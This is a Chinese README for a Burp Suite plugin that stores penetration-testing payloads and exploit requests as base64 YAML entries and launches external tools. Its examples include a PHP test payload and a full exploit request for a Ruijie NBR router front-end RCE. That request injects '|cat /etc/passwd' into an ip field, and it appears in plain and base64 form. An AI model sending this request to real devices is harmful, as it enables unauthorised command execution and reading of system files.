

## Doraemon-渗透辅助小工具

### 前言

1. 在渗透测试或挖 SRC 的时候每次都需要在笔记中复制一些 Payload 或 Webshell 内容觉得太麻烦了，所以打算 **抄一个** Burpsuite 插件，直接在 Burpsuite 点一点操作就简单多了。
2. 在复现一些Http 请求的漏洞，每次都需要在笔记复制exp或写个简单的 python 脚本觉得太麻烦了，如果在 Burpsuite 中直接修改请求包就简单多了。
3. 每次都需要到其他目录打开一些工具，直接在BurpSuite 打开其他工具进行目录扫描等操作就简单多了


### 使用

1、加载插件初始化的配置文件会放在的`/用户根目录/.config/DAM/`目录下。

2、如果当前 BurpSuite 目录存在 **DAM 目录和文件 **就会优先访问，但是**不会创建**。（[方便迁移](https://github.com/yuyan-sec/Doraemon/issues/7)）

3、**使用 vscode 来修改 exp.yaml ， payload.yaml 和 tools.yaml** （**yaml 语法**）

```
DAM:
|_exp.yaml
|_payload.yaml
|_tools.yaml
|_temp.req (单独启动的时候用来保存 request 请求)
```


#### payload.yaml

该文件是把 **Payload 插入到 数据包 中** （在文件上传的时候快速插入webshell，不用再生成或者翻文件来复制粘贴了）

```
<?php phpinfo();?>
```

需要把 payload  Base64 编码

```
PD9waHAgcGhwaW5mbygpOz8+
```

```
WebShell:
  蚁剑:
    PHP:
      PD9waHAgcGhwaW5mbygpOz8+
```


#### exp.yaml

获取 host 和 Cookie **修改整个数据包**（如果 Repeater 没有 Target 就使用不了）

host 和 cookie 的位置使用占位符 `%s`  ,  如果是未授权的就不需要 cookie。

```
POST /guest_auth/guestIsUp.php HTTP/1.1 
Host: %s
Connection: close Upgrade-Insecure-Requests: 1 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36 
Cookie: %s
Content-Type: application/x-www-form-urlencoded 
Content-Length: 56 

mac=1&ip=127.0.0.1|cat /etc/passwd > test.txt
```

然后把 exp   **Base64编码**

```
UE9TVCAvZ3Vlc3RfYXV0aC9ndWVzdElzVXAucGhwIEhUVFAvMS4xIApIb3N0OiAlcwpDb25uZWN0aW9uOiBjbG9zZSBVcGdyYWRlLUluc2VjdXJlLVJlcXVlc3RzOiAxIApVc2VyLUFnZW50OiBNb3ppbGxhLzUuMCAoV2luZG93cyBOVCAxMC4wOyBXaW42NDsgeDY0KSBBcHBsZVdlYktpdC81MzcuMzYgKEtIVE1MLCBsaWtlIEdlY2tvKSBDaHJvbWUvODUuMC40MTgzLjEyMSBTYWZhcmkvNTM3LjM2IApDb29raWU6ICVzCkNvbnRlbnQtVHlwZTogYXBwbGljYXRpb24veC13d3ctZm9ybS11cmxlbmNvZGVkIApDb250ZW50LUxlbmd0aDogNTYgCgptYWM9MSZpcD0xMjcuMC4wLjF8Y2F0IC9ldGMvcGFzc3dkID4gdGVzdC50eHQ=
```

编写 exp.yaml（**yaml 语法**）

```
设备漏洞:
  锐捷漏洞:
    锐捷NBR路由器-前台RCE:
      UE9TVCAvZ3Vlc3RfYXV0aC9ndWVzdElzVXAucGhwIEhUVFAvMS4xIApIb3N0OiAlcwpDb25uZWN0aW9uOiBjbG9zZSBVcGdyYWRlLUluc2VjdXJlLVJlcXVlc3RzOiAxIApVc2VyLUFnZW50OiBNb3ppbGxhLzUuMCAoV2luZG93cyBOVCAxMC4wOyBXaW42NDsgeDY0KSBBcHBsZVdlYktpdC81MzcuMzYgKEtIVE1MLCBsaWtlIEdlY2tvKSBDaHJvbWUvODUuMC40MTgzLjEyMSBTYWZhcmkvNTM3LjM2IApDb29raWU6ICVzCkNvbnRlbnQtVHlwZTogYXBwbGljYXRpb24veC13d3ctZm9ybS11cmxlbmNvZGVkIApDb250ZW50LUxlbmd0aDogNTYgCgptYWM9MSZpcD0xMjcuMC4wLjF8Y2F0IC9ldGMvcGFzc3dkID4gdGVzdC50eHQ=
```


#### tools.yaml

可以直接在GUI直接新增和删除，也可以手动添加

```
Tools:
- [test, '{request}']
- [test2, '{url}']
- [test3, '{host}']
- [test4, '{domain}']
- [test5, '{target}']

```

**配置**

https://www.baidu.com/index.php

- {request} 表示使用请求包
- {url} : https://www.baidu.com/index.php
- {host} : www.baidu.com
- {domain} :  baidu.com
- {target} :  https://www.baidu.com


### 更新日志

#### 1.0.3.1

1. 感谢 [alex123-2star](https://github.com/alex123-2star) 师傅提交的代码：优化 Mac 快捷启动 和 请求处理（{domain}  {target} ）
2. 如果当前 BurpSuite 目录存在 **DAM 目录和文件 **就会优先访问，但是**不会创建**。其次才访问 `/用户根目录/.config/DAM/` 下的文件（会创建目录和配置文件）


#### 1.0.3

1.0.3 版本所有配置都放在了`/用户根目录/.config/DAM/`，新增了一个快捷启动工具的功能，可以通过设置工具的路径和命令进行快捷启动。Linux 系统需要安装 `gnome-terminal` ，mac 没测试。

该功能主要抄的工具：

https://github.com/bit4woo/knife

https://github.com/kN6jq/gather


添加保存完成之后在菜单右键可以看到工具


#### 1.0.2

1.0.2 版本添加了一个 GUI 方便查看 漏洞 和 Payload



也可以单独运行，其他功能还没写


### 已知BUG

第三层不能同名，这样通过 JSP 获取内容就会出错，只会获取到最后一个 冰蝎3 的 JSP

```yaml
WebShell:
  哥斯拉:
    JSP:
      dGVzdA==
  冰蝎3:
    JSP:
      MTIz
```

建议修改为

```yaml
WebShell:
  哥斯拉:
    哥斯拉-JSP:
      dGVzdA==
  冰蝎3:
    冰蝎3-JSP:
      MTIz
```

这样就可以获取到相对的内容。


### 参考

本工具基于大量优秀文章和工具才得以~~编写~~ 抄写完成，非常感谢这些无私的分享者！

https://github.com/d3vilbug/HackBar

https://github.com/bit4woo/knife

https://github.com/kN6jq/gather
